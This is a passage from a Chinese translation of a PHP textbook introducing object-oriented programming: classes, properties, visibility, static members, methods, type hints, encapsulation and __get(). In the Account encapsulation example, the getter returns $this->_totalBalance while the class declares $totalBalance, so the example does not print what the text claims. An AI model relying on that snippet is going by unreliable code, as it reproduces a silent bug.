下一章将介绍面向对象编程，它将可重用代码的理念延伸得更远，并可以为你的 PHP 应用程序增加大量功能和灵活性。

## 练习

- 1. 编写一个函数，接受一个数组参数，并返回一个字符串，其中包含定义列表的 XHTML 标记，其中数组的每个键都是术语，每个对应的值都是定义。（提示：XHTML 定义列表元素由 `<dl> ... </dl>` 标记组成。在这些标记内，术语使用 `<dt> ... </dt>` 标记标记，定义使用 `<dd> ... </dd>` 标记。）

- 2. 任何给定整数 *n* 的阶乘是 1 到 *n*（包含 *n*）之间所有正整数的乘积。因此，4 的阶乘是 1 × 2 × 3 × 4 = 24，5 的阶乘是 1 × 2 × 3 × 4 × 5 = 120。这可以递归地表示如下：
- 如果 *n* == 0，返回 1。（这是基本情况）
- 如果 *n* > 0，计算 *n*-1 的阶乘，将其乘以 *n*，并返回结果

编写一个 PHP 脚本，使用递归函数显示整数 0 到 10 的阶乘。

## 对象

本章不仅介绍对象，还介绍面向对象编程（OOP）的整体概念。这种编程风格是构建模块化、可重用代码的绝佳方式，让你创建相对容易维护的大型应用程序。OOP 方法在近年来已成为 PHP 社区非常流行的方法。

你可能已经通过使用 Java、C# 或 Perl 等其他语言而熟悉 OOP，但如果你不熟悉，后面将简要介绍。

本章其余部分教授 OOP 的主要概念，并展示如何在 PHP 中编写面向对象的代码。你将学习：

- 如何定义类，即创建对象的蓝图。你接着学习如何从类创建对象
- 对象的两个重要组件——属性和方法——以及如何使用它们为对象添加丰富的功能。在此过程中，你将学习如何使对象尽可能自包含，从而允许它们轻松地为不同目的重复使用
- 如何使用继承——一个对象从另一个对象继承行为的过程。这是对象最强大的特性之一。你将学习如何在 PHP 中实现这一点，以及如何精细调整继承过程以创建可以反复使用的强大类
- 其他 OOP 概念，例如抽象类、接口、构造函数和析构函数
- PHP 中一些方便的与对象相关的函数，用于自动加载类、将对象转换为字符串以及识别对象的类

OOP 是一个大话题，本章介绍了大量概念。如果一开始觉得令人不知所措，请不要担心。大量代码示例会让事情变得更清晰，你会发现，一旦你开始编写自己的面向对象代码，这些概念就会迎刃而解。

## 什么是面向对象编程？

迄今为止，在本书中，你编写了在一个函数和下一个函数之间传递数据块的代码——这种技术称为 _过程式编程_。面向对象编程采用不同的方法。对象模拟你的应用程序旨在处理的现实世界事物、过程和理念。面向对象应用程序是一组协作的对象，它们独立处理某些活动。

例如，当房屋在建造时，管道工处理管道，电工处理电线。管道工不需要知道卧室的电路是 10 安培还是 20 安培。他们只需要关注自己的活动。总承包商确保每个分包商都在完成需要完成的工作，但不一定对每个任务的具体细节感兴趣。面向对象方法与此类似，每个对象向其他对象隐藏其实现细节。它如何完成工作与系统的其他组件无关。重要的是对象能够提供的服务。

类和对象的概念，以及如何使用它们，是面向对象编程的基本思想。正如你将看到的，面向对象方法相对于过程式编程具有巨大的优势。

## 面向对象编程的优势

让我们看看软件开发中面向对象方法的一些优势。

首先，OOP 使将业务需求映射到代码模块变得容易。因为你的应用程序基于现实世界对象的概念，你通常可以将人、事物和概念直接映射到类。这些类具有它们所代表的现实世界概念的相同属性和行为，这有助于你快速识别需要编写哪些代码以及应用程序的不同部分如何交互。

OOP 的第二个好处是代码复用。你经常需要在同一应用程序的不同位置使用相同类型的数据。例如，管理医院患者记录的应用程序可能包含一个名为 `Person` 的类。患者护理涉及许多不同的人——患者、医生、护士、医院管理员等等。通过定义一个名为 `Person` 的类，涵盖所有人共有的属性和方法，你可以以一种过程式编程方法不总是可能的方式重复使用大量代码。

其他应用程序呢？你能想到多少个处理个人信息的应用程序？可能不少。编写良好的 `Person` 类可以轻松地从一个项目复制到另一个项目，几乎不需要更改，立即为你提供之前开发的处理人员信息的所有丰富功能。这是面向对象方法最大的好处之一——在给定应用程序内以及在不同项目之间都有代码复用的机会。

OOP 的另一个优势来自类的模块化。如果你在 `Person` 类中发现错误，或者想要为类添加新功能或更改其工作方式，你只需要去一个地方。该类的所有功能都包含在单个 PHP 文件中。依赖 `Person` 类的应用程序任何部分都会立即受到对其更改的影响。这可以大大简化查找错误，并使添加功能成为一项相对轻松的任务。模块化在处理大型复杂应用程序时尤其重要。

使用 OOP 编写的应用程序通常相对容易理解。因为面向对象方法迫使你思考代码的组织方式，当你刚加入开发团队时，更容易发现现有应用程序的结构。此外，应用程序的面向对象设计为你提供了一个现成的框架，你可以在其中开发新功能。

在大型项目中，通常有技能水平各异的许多程序员。同样，面向对象方法相对于过程式代码具有显著优势。对象向对象的用户隐藏其实现细节。初级团队成员不需要理解复杂的数据结构和业务逻辑的所有特性，只需少量文档，就可以开始使用由高级团队成员创建的对象。对象本身负责触发数据或系统状态的更改。

现在你已经了解了面向对象应用程序的优势。你现在准备好学习类和对象的细节，你将在接下来的几个部分中学习。到本章结束时，你可能会亲身体会到 OOP 方法的好处。

## 理解基本 OOP 概念

在 PHP 中开始创建对象之前，了解面向对象编程的一些基本概念会有所帮助。在接下来的部分中，你将探索类、对象、属性和方法。这些是你可以用来在 PHP 中创建面向对象应用程序的基本构建块。

### 类

在现实世界中，对象具有特征和行为。汽车有颜色、重量、制造商和一定容积的油箱。这些是它的特征。汽车可以加速、停车、转向信号和按喇叭。这些是它的行为。这些特征和行为对所有汽车都共通。虽然不同的汽车可能有不同的颜色，但所有汽车都有颜色。

通过 OOP，你可以使用类来模拟汽车的一般概念——即具有所有这些品质的东西。类是一段代码，描述某物或一组事物的特征和行为。例如，名为 Car 的类将描述所有汽车共有的特征和行为。

### 对象

对象是类的特定实例。例如，如果你创建一个 Car 类，你可能会接着创建一个名为 myCar 的对象，它属于 Car 类。然后你可以创建第二个对象 yourCar，也基于 Car 类。

将类视为构建对象的蓝图或工厂。类指定对象将具有的特征，但不一定是这些特征的特定值。同时，对象是使用类提供的蓝图构建的，其特征具有特定值。


例如，`Car` 类可能仅表明汽车应该有颜色，而特定的 `myCar` 对象可能是红色的。

类与对象的区别常常让初次接触 OOP 的人感到困惑。将类视为在设计应用程序时创建的东西，而对象是在应用程序实际运行时创建和使用的，这很有帮助。

## 属性

在 OOP 术语中，类或对象的特征称为其 *属性*。属性很类似于普通变量，因为它们具有名称和值（可以是任何类型）。有些属性允许更改其值，而有些则不允许。例如，`Car` 类可能具有 `color` 和 `weight` 等属性。虽然可以通过重新喷漆来改变汽车的颜色，但汽车的重量（不包括货物或乘客）是一个固定值。

## 方法

类的行为——即与类关联的动作——称为其 *方法*。方法与函数非常相似；事实上，你在 PHP 中使用 `function` 语句来定义方法。

与函数一样，有些方法作用于作为参数传递给它们的外部数据，但对象的方法也可以访问对象的属性。例如，`Car` 类的 `accelerate` 方法可能会检查 `fuel` 属性，以确保有足够的燃料来移动汽车。然后，该方法可能会更新对象的 `velocity` 属性，以反映汽车已加速的事实。

类的方法连同其属性，统称为类的 *成员*。

## 在 PHP 中创建类和对象

虽然类和对象背后的理论可能相当复杂，但在 PHP 中创建类和对象实际上非常简单。如你所想象，你需要先创建一个类，然后再创建属于该类的对象。要创建一个类，你使用 PHP 的 `class` 关键字。这是一个非常简单的类：

```
class Car {
// Nothing to see here; move along
}
```

这段代码只是定义了一个名为 `Car` 的类，它什么也不做——它只是包含一个注释。(你很快就会向类添加一些功能。) 请注意，类定义由 `class` 关键字、类名、组成类的代码构成，并用花括号 ({ }) 包围。

*一个常见的编码标准是类名以大写字母开头，尽管你不必这样做。最重要的是保持一致。你可以在第 20 章中了解更多有关编码标准的信息。*

既然你已经定义了一个类，就可以基于该类创建对象了。要创建一个对象，请使用 `new` 关键字，后跟要基于它创建对象的类的名称。然后，你可以将此对象分配给一个变量，就像分配任何其他值一样。

下面是一个展示如何创建对象的示例：

```
class Car {
// Nothing to see here; move along
}

$beetle = new Car();
$mustang = new Car();

print_r( $beetle ); // Displays "Car Object ( )"
print_r( $mustang ); // Displays "Car Object ( )"
```

这段代码首先像以前一样定义了空的 `Car` 类，然后创建 `Car` 类的两个新实例——即两个 `Car` 对象。它将一个对象分配给名为 `$beetle` 的变量，将另一个对象分配给名为 `$mustang` 的变量。请注意，虽然两个对象基于同一个类，但它们彼此独立，并且各自存储在自己的变量中。

一旦对象被创建，就使用 `print_r()` 显示它们的内容。你还记得从第 6 章中学到的，`print_r()` 可用于输出数组的内容。它也可以用于输出对象，这对于调试面向对象代码非常有用。在这种情况下，`Car` 类是空的，因此 `print_r()` 仅显示对象基于 `Car` 类这一事实。

> 在第 7 章中，你学习了 PHP 如何按值将变量传递给函数和从函数接收变量，并按值将它们分配给其他变量，除非你明确指示按引用传递或分配它们。此规则的例外是对象，对象始终按引用传递。

## 创建和使用属性

既然你知道如何创建类，就可以开始向其中添加属性了。类属性与变量非常相似；例如，对象的属性可以存储单个值、一组值，甚至另一个对象。

## 了解属性可见性

在深入研究在 PHP 中创建属性之前，值得了解一下类的一个重要概念，即 _visibility_。PHP 中类的每个属性都可以具有三种可见性级别之一，即 public、private 和 protected：

- 公共属性可以被任何代码访问，无论该代码是在类内部还是外部。如果属性被声明为 public，则其值可以从脚本中的任何位置读取或更改。
- 类的私有属性只能被类内部的代码访问。因此，如果你创建一个声明为 private 的属性，只有同一类内部的方法可以访问其内容。(如果你尝试在类外部访问该属性，PHP 会生成一个致命错误。)
- 受保护的类属性有点像私有属性，因为它们不能被类外部的代码访问，但有一个微妙的区别：任何继承自该类的类也可以访问这些属性。(你将在本章后面了解继承。)

一般来说，尽可能避免创建公共属性是个好主意。相反，更安全的做法是创建私有属性，然后创建允许类外部代码访问这些属性的方法。这意味着你可以精确控制类属性的访问方式。你将在本章后面了解更多有关此概念的信息。不过，在接下来的几个部分中，你将主要使用公共属性，因为它们最容易理解。

## 声明属性

要向类添加属性，首先写入关键字 public、private 或 protected——具体取决于你想给属性赋予的可见性级别——后跟属性名称（前面带有 $ 符号）：

```
class MyClass {
    public $property1;     // This is a public property
    private $property2;    // This is a private property
    protected $property3;  // This is a protected property
}
```

顺便说一句，你也可以在声明属性时对其进行初始化，就像对变量所做的那样：

```
class MyClass {
    public $widgetsSold = 123;
}
```

在这种情况下，每次从 MyClass 创建新对象时，该对象的 $widgetsSold 属性默认值为 123。

## 访问属性

创建类属性后，可以使用以下语法在调用代码中访问相应对象的属性值：

```
$object->property;
```

也就是说，你写出存储对象的变量名，后跟由连字符 (-) 和大于号 (>) 组成的箭头符号，后跟属性名。(请注意，属性名称前面没有 $ 符号。)

下面是一个展示如何定义属性并设置和读取其值的示例：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Defining and Using Object Properties</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Defining and Using Object Properties</h1>

<?php
class Car {
public $color;
public $manufacturer;
}

$beetle = new Car();
$beetle->color = "red";
$beetle->manufacturer = "Volkswagen";

$mustang = new Car();
$mustang->color = "green";
$mustang->manufacturer = "Ford";

echo "<h2>Some properties:</h2>";
echo "<p>The Beetle's color is " . $beetle->color . ".</p>";
echo "<p>The Mustang's manufacturer is " . $mustang->manufacturer . ".</p>";
echo "<h2>The $beetle Object:</h2><pre>";
print_r( $beetle );
echo "</pre>";
echo "<h2>The $mustang Object:</h2><pre>";
print_r( $mustang );
echo "</pre>";
?>
</body>
</html>
```

你可以在图 8-1 中看到此脚本的输出。脚本定义了一个名为 Car 的类，具有两个公共属性 $color 和 $manufacturer。然后它创建一个新的 Car 对象并将其分配给名为 $beetle 的变量，并将 $beetle 的 $color 和 $manufacturer 属性分别设置为 "red" 和 "Volkswagen"。接下来，脚本创建另一个 Car 对象，将其分配给 $mustang，并将其 $color 属性设置为 "green"，将其 $manufacturer 属性设置为 "Ford"。

现在两个对象已创建并设置了属性，脚本显示了几个属性的值：$beetle 对象的 $color 属性 ($beetle->color) 和 $mustang 对象的 $manufacturer 属性 ($mustang->manufacturer)。最后，脚本使用 print_r() 显示这两个对象；请注意 print_r() 显示对象属性的方式与其显示数组键和值的方式非常相似。




图 8-1

## 静态属性

在上一章中，你遇到了静态函数变量。你也可以以类似的方式创建静态类属性，只需在属性名称前添加 static 关键字即可：

```
class MyClass {
    public static $myProperty;
}
```

类的静态成员与从此类派生的任何特定对象无关。要访问静态属性，请写出类名，后跟两个冒号 (::)，再后跟属性名称（前面带有 $ 符号）：

```
MyClass::$myProperty = 123;
```

以下是使用 Car 类的示例：

```
class Car {
    public $color;
    public $manufacturer;
    static public $numberSold = 123;
}
```

```
Car::$numberSold++;
echo Car::$numberSold; // Displays "124"
```

在 `Car` 类中，声明了一个名为 `$numberSold` 的静态属性，并将其初始化为 `123`。然后，在类定义之外，对该静态属性进行自增，并显示其新值 `124`。

当你想要记录一个与特定类相关但又与特定对象无关的持久值时，静态属性非常有用。你可以将它们视为类的全局变量。静态属性的好处在于，类外部的代码不需要创建类的实例（即对象）即可访问该属性。

## 类常量

在第 3 章中，你学习了如何创建常量——即在脚本运行过程中保存固定值的特殊标识符。PHP 还允许你在类中创建常量。要定义类常量，请使用关键字 `const`，如下所示：

```
class MyClass {
    const MYCONST = 123;
}
```

与普通常量一样，类常量名称的命名惯例是使用全大写字母。

像静态属性一样，你可以通过类名和 `::` 运算符来访问类常量：

```
echo MyClass::MYCONST;
```

当你需要定义与特定类相关的固定值或配置选项时，类常量非常有用。例如，对于 `Car` 类，你可以定义类常量来表示各种车型，然后在创建 `Car` 对象时使用这些常量：

```
class Car {
    const HATCHBACK = 1;
    const STATION_WAGON = 2;
    const SUV = 3;

    public $model;
    public $color;
    public $manufacturer;
    public $type;
}

$myCar = new Car;
$myCar->model = "Dodge Caliber";
$myCar->color = "blue";
$myCar->manufacturer = "Chrysler";
$myCar->type = Car::HATCHBACK;

echo "This $myCar->model is a ";
switch ( $myCar->type ) {
    case Car::HATCHBACK:
        echo "hatchback";
        break;
case Car::STATION_WAGON:
    echo "station wagon";
    break;
case Car::SUV:
    echo "SUV";
    break;
}
```

在此示例中，Car 类包含三个类常量——HATCHBACK、STATION_WAGON 和 SUV——它们分别被赋值为 1、2 和 3。这些常量在设置和读取 $myCar 对象的 $type 属性时被使用。

## 使用方法

到目前为止，你创建的类和对象大多只包含属性。因此，它们除了作为花哨的关联数组外，并没有多大用处。当你开始向类添加方法时，它们才变得真正强大。对象随后成为一个精心封装的功能块，既包含数据，也包含用于处理该数据的方法。

如前所述，方法很像函数，只不过它绑定到特定的类。

### 方法可见性

本章前面你学到，属性可以有三种可见性级别：public、private 和 protected。

方法也是如此。类中的所有方法都可以被同一个类中的其他方法调用。如果方法被声明为 public，则类定义之外的任何代码也可能调用该方法。但是，如果方法被声明为 private，则只有同一个类中的其他方法才能调用它。最后，protected 方法可以被类中的其他方法或继承自该类的类中的方法调用。

### 创建方法

要向类添加方法，请使用 public、private 或 protected 关键字，接着是 function 关键字，然后是方法名，再是括号。然后将方法的代码放在花括号中：

```
class MyClass {
    public function aMethod() {
        // (do stuff here)
    }
}
```

你可以选择省略 public、private 或 protected 关键字。如果这样做，则默认为 public。

## 调用方法

要调用对象的方法，只需写出对象的名称，然后是用于访问属性的相同箭头 (->)，接着是方法名及其括号：

```
$object->method();
```

以下是一个简单示例，它创建一个带有方法的类，然后从该类创建一个对象并调用该对象的方法：

```
class MyClass {

    public function hello() {
        echo "Hello, World!";
    }
}

$obj = new MyClass;
$obj->hello(); // Displays "Hello, World!"
```

## 添加参数和返回值

与你在上一章中学习的函数一样，你可以向方法添加参数，以便它可以接受用于处理的参数。方法也可以像函数一样返回值。

你添加参数和返回值的方式与函数非常相似。要添加参数，请在方法名称后的括号中指定参数名：

```
public function aMethod( $param1, $param2 ) {
    // (do stuff here)
}
```

要从方法返回值——或者仅仅是立即退出方法——请使用 return 关键字：

```
public function aMethod( $param1, $param2 ) {
    // (do stuff here)
    return true;
}
```

## 从方法访问对象属性

虽然你可以很高兴地使用参数和返回值向方法传递值并从方法接收值，但当对象尽可能自包含时，面向对象编程（OOP）的强大之处才会体现出来。这意味着，对象的方法理想情况下应主要使用对象的属性，而不是依赖外部数据来完成工作。

要在同一个对象的方法内部访问该对象的属性，你可以使用特殊变量名 $this，如下所示：

```
$this->property;
```

例如：

```
class MyClass {
    public $greeting = "Hello, World!";
    public function hello() {
        echo $this->greeting;
    }
}
```

```
$obj = new MyClass;
$obj->hello(); // Displays "Hello, World!"
```

在此示例中，创建了一个名为 MyClass 的类，带有一个属性 $greeting 和一个方法 hello()。该方法使用 echo 显示通过 $this->greeting 访问的 $greeting 属性的值。在类定义之后，脚本从该类创建一个对象 $obj，并调用该对象的 hello() 方法来显示问候语。

请注意，hello() 方法内部的 $this 指的是正在调用 hello() 方法的特定对象——在此例中，即存储在 $obj 中的对象。如果从同一个类创建另一个对象 $obj2 并调用其 hello() 方法，那么 $this 将改为指向 $obj2，因此 $this->greeting 将指向 $obj2 的 $greeting 属性。

顺便说一句，你也可以使用 $this 从同一个对象的另一个方法中调用该对象的方法：

```
class MyClass {
    public function getGreeting() {
        return "Hello, World!";
    }
    public function hello() {
        echo $this->getGreeting();
    }
}
```

```
$obj = new MyClass;
$obj->hello(); // Displays "Hello, World!"
```

在这里，hello() 方法使用 $this->getGreeting() 调用同一对象中的 getGreeting() 方法，然后使用 echo 显示返回的问候字符串。

## 试一试：一辆能动的汽车

以下示例展示了向类添加几个方法如何真正使其变得有用。
将脚本保存为文档根目录下的 car_simulator.php，然后在 Web 浏览器中运行它。图 8-2 显示了结果。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>A Simple Car Simulator</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>A Simple Car Simulator</h1>

<?php

class Car {
public $color;
public $manufacturer;
public $model;
private $_speed = 0;

public function accelerate() {
if ( $this->_speed >= 100 ) return false;
$this->_speed += 10;
return true;
}

public function brake() {
if ( $this->_speed <= 0 ) return false;
$this->_speed -= 10;
return true;
}

public function getSpeed() {
return $this->_speed;
}
}

$myCar = new Car();
$myCar->color = "red";
$myCar->manufacturer = "Volkswagen";
$myCar->model = "Beetle";

echo "<p>I'm driving a $myCar->color $myCar->manufacturer $myCar->model.</p>";

echo "<p>Stepping on the gas...<br />";

while ( $myCar->accelerate() ) {
echo "Current speed: " . $myCar->getSpeed() . " mph<br />";
}
```


echo "</p><p>Top speed! Slowing down...<br />";
while ( $myCar->brake() ) {
    echo "Current speed: " . $myCar->getSpeed() . " mph<br />";
}
echo "</p><p>Stopped!</p>";
?>
</body>
</html>



图 8-2

## 它的工作原理

此脚本以三种方法的形式为 `car` 类添加了一些有用的行为：

- `accelerate()` 使车速每次提高 10 英里/小时，成功时返回 `true`。如果车辆已达到最高时速（100 英里/小时），则不会再加速，且 `accelerate()` 返回 `false`
- `brake()` 与 `accelerate()` 相反——它使车速每次降低 10 英里/小时，成功时返回 `true`，如果车辆已停止则返回 `false`
- `getSpeed()` 只需返回车辆当前时速（英里/小时）

此脚本随后创建 Car 类的一个实例——即 $myCar 对象——并将其公共属性设置为反映特定汽车（一辆红色大众甲壳虫）。最后，脚本显示这些属性，然后运行几个循环，将汽车加速到最高时速，再减速至零英里/小时，并在过程中使用 getSpeed() 方法显示当前车速。

请注意，Car 类包含一个私有属性 $speed。这是良好的 OOP 做法，因为除非绝对需要公开，否则应将对象的数据和行为保持私有。在此例中，你不希望外部代码能够直接读取或修改汽车的车速；调用代码应改用你创建的三种方法。因此，将 $speed 设为私有是合理的。

顺便提一下，$speed 变量名开头的下划线是一种常见的编码惯例，用于指示私有属性和方法。你不必遵循此约定，但这样可以一眼识别出私有类成员。

## 静态方法

PHP 允许你以与静态属性类似的方式创建静态方法。要使方法成为静态方法，请在方法定义中在 function 关键字之前添加 static 关键字：

```
class MyClass {
    public static function staticMethod() {
        // (do stuff here)
    }
}
```

调用静态方法时，先写类名，后跟两个冒号，再写方法名和括号内的参数（如果有）：

```
MyClass::staticMethod();
```

与静态属性一样，当你想要添加与类相关但无需实际类对象即可工作的功能时，静态方法很有用。下面是一个简单示例：

```
class Car {

    public static function calcMpg( $miles, $gallons ) {
        return ( $miles / $gallons );
    }

}

echo Car::calcMpg( 168, 6 ); // Displays "28"
```

calcMpg() 方法接受两个参数——行驶英里数和使用的燃油加仑数——并返回计算出的每加仑英里数。然后通过传入一些示例数值并显示结果来测试该方法。

与你在前面的 car_simulator.php 示例中创建的 accelerate()、brake() 和 getSpeed() 方法不同，calcMpg() 方法不依赖实际对象即可完成其工作，因此将其设为静态是合理的。请注意，调用代码无需创建 Car 对象即可使用 calcMpg()。

如果需要在同一类的方法内访问静态方法或属性，或类常量，可以使用与类外相同的语法：

```
class MyClass {
    const MYCONST = 123;
    public static $staticVar = 456;

    public function myMethod() {
        echo "MYCONST = " . MyClass::MYCONST . ", ";
        echo "\$staticVar = " . MyClass::$staticVar . "<br />";
    }
}

$obj = new MyClass;
$obj->myMethod(); // Displays "MYCONST = 123, $staticVar = 456"
```

你也可以使用 self 关键字（就像对对象使用 $this 那样）：

```
class Car {
    public static function calcMpg( $miles, $gallons ) {
        return ( $miles / $gallons );
    }

    public static function displayMpg( $miles, $gallons ) {
        echo "This car's MPG is: " . self::calcMpg( $miles, $gallons );
    }
}

echo Car::displayMpg( 168, 6 ); // Displays "This car's MPG is: 28"
```

## 使用提示检查方法参数

一般来说，PHP 对你传递的数据类型并不在意。这使得 PHP 非常灵活，但也可能导致相当难以追踪的问题。请看下面的代码：

```
class Car {
    public $color;
}

class Garage {
    public function paint( $car, $color ) {
        $car->color = $color;
    }
}

$car = new Car;
$garage = new Garage;
$car->color = "blue";
$garage->paint( $car, "green" );
echo $car->color; // Displays "green"
```

此代码创建了两个类：带有单个 $color 属性的 Car，以及带有 paint() 方法的 Garage。该方法接受一个 Car 对象和一个颜色字符串，并将汽车的 $color 属性更改为提供的字符串。你可以在 Garage 类之后的代码中看到这一点，该代码创建新的 Car 和 Garage 对象，将 Car 对象的颜色设置为蓝色，然后调用 Garage 对象的 paint() 方法将汽车颜色更改为绿色。目前为止一切正常。

不过，假设另一个有些天真的程序员想使用你的 Garage 类来给猫涂漆，而不是给汽车：他们创建一个包含猫名的字符串变量，然后尝试在其上使用 paint() 方法：

```
$cat = "Lucky";
$garage = new Garage;
$garage->paint( $cat, "red" ); // Error!
```

unsurprisingly，PHP 对此表示反对，生成以下警告级错误：

```
PHP Warning: Attempt to assign property of non-object
```

这是因为 Garage::paint() 方法试图更改一个字符串 "Lucky" 的 $color 属性，而这当然是不可能的。错误实际上在于调用代码——它不应该将字符串作为第一个参数传递给 Garage::paint()——但脚本实际上是在 paint() 方法内部崩溃的。如果 paint() 方法相当长，或者它又调用了其他方法，那么追踪问题根源就可能相当困难。

这时类型提示就派上用场了。你可以使用提示告诉 PHP，Garage::paint() 应该期望其第一个参数为 Car 对象，并拒绝任何其他类型的参数。要做到这一点，只需将类名放在参数名前，如下所示：

```
public function paint( Car $car, $color ) {
```

现在，如果同一个程序员尝试用字符串而不是 Car 对象作为第一个参数调用 paint() 方法，PHP 会给出类似于以下的错误：

```
PHP Catchable fatal error: Argument 1 passed to Garage::paint() must be an instance of Car, string given, called in script.php on line 23 and defined in script.php on line 9
```

这要有用得多，因为它让你能够将问题追踪到调用代码，而不是浪费时间在方法内部查找错误。

顺便说一句，你也可以对常规函数（而不仅仅是方法）使用类型提示，并且还可以使用提示检查参数是否为数组：

```
function showAll( array $items ) {
```

遗憾的是，PHP 仅支持对象和数组的类型提示。字符串或整数等其他数据类型无法使用此技术进行检查。如果你想检查这些类型，则需要使用第 3 章中描述的 is_string()、is_int() 等函数。

## 通过封装使类自包含

迄今为止，本章中你创建的大多数类都包含公共属性，外部代码可以随意深入类内部并操纵其公共属性。通常，这是个坏主意。OOP 的优势之一是封装的概念。这意味着类的内部数据应受到保护，免受外部直接操纵，且类的实现细节（例如它如何存储值或操作数据）应对外部隐藏。这样做可带来两个好处：

- 你可以随时更改类的实现细节，而不会影响使用该类的代码
- 你可以信任对象的状态是有效且合理的

一般来说，类的所有内部属性都应声明为私有。如果外部代码需要访问这些变量，应通过公共方法进行。这给了你的类机会来验证外部代码请求的更改并接受或拒绝它们。

例如，如果你正在构建处理客户账户详细信息的银行应用程序，你可能有一个 Account 对象，带有一个名为 $totalBalance 的属性，以及名为 makeDeposit() 和 makeWithdrawal() 的方法。影响余额的唯一方式应该是提取或存款。如果 $totalBalance 属性实现为公共属性，你可以编写外部代码来增加该变量的值，而无需实际存款。显然，这对银行来说很不妥。

相反，你将此属性实现为私有属性，并提供一个名为 getTotalBalance() 的公共方法，该方法返回该私有属性的值：

```
class Account {
private $totalBalance = 0;

public function makeDeposit( $amount ) {
$this->totalBalance += $amount;
}

public function makeWithdrawal( $amount ) {
if ( $amount < $this->totalBalance ) {
$this->totalBalance -= $amount;
}
else {
die ( "Insufficient funds<br />" );
}
}
}
```


public function getTotalBalance() {
    return $this->_totalBalance;
}
}
$a = new Account;
$a->makeDeposit( 500 );
$a->makeWithdrawal( 100 );
echo $a->getTotalBalance() . "<br />"; // Displays "400";
$a->makeWithdrawal( 1000 ); // Displays "Insufficient funds"

由于存储账户余额的变量是私有的，它不能直接操作。如果客户想要增加账户的值，必须通过 makeDeposit() 实际进行存款。

通过封装内部数据和方法实现，面向对象应用程序可以保护并控制对其数据的访问，并隐藏实现细节，使应用程序更加灵活和稳定。

## 使用 __get()、__set() 和 __call() 进行对象重载

通常，如果您尝试读取或写入对象的属性，PHP 会乖乖地读取或设置属性的值（假设该属性存在且您的代码有权访问它）。同样，如果您调用对象的方法，PHP 会在对象中查找该方法，如果找到，则运行它。

然而，PHP 允许您使用一种称为重载的技术来拦截对对象属性进行读取或写入，或调用其方法的尝试。这种技术非常强大。就调用代码而言，对象包含固定的、预先编程的属性和方法。然而，在幕后，您的对象可以进行各种有趣的操作。例如：

- 调用代码读取 $myObject->property 的值，这实际上会导致 $myObject 从数组中检索该值
- 调用代码将 $myObject->anotherProperty 设置为新值，但在幕后，$myObject 实际上将此值写入数据库字段
- 调用代码调用 $myObject->aMethod()。此方法在 $myObject 中实际上不存在，但 $myObject 拦截该调用并改为调用另一个方法

尽管您可能不会经常使用对象重载，但您可以看到该技术可以提供很大的灵活性。

PHP 允许您创建三个“魔术”方法，用于拦截属性和方法访问：

- 只要调用代码尝试读取对象的不可见属性，就会调用 __get()
- 只要调用代码尝试向对象的不可见属性写入值，就会调用 __set()
- 只要调用代码尝试调用对象的不可见方法，就会调用 __call()

“并不可见”是什么意思？在此语境下，_不可见_ 表示属性或方法对调用代码不可见。通常这意味着该属性或方法在类中根本不存在，但也可能意味着该属性或方法是 private 或 protected，因此对类外部的代码不可访问。

### 使用 __get() 和 __set() 重载属性访问

要拦截读取不可见属性的尝试，请在类中创建一个名为 __get() 的方法。（即两个下划线，后跟单词 _get_。）您的 __get() 方法应期望一个参数：所请求属性的名称。然后它应返回一个值；该值会作为检索到的属性值传回给调用代码。

下面是一个示例：

```
class Car {
public function __get( $propertyName ) {
echo "The value of '$propertyName' was requested<br />";
return "blue";
}
}
```

```
$car = new Car;
$x = $car->color; // Displays "The value of 'color' was requested"
echo "The car's color is $x<br />"; // Displays "The car's color is blue"
```

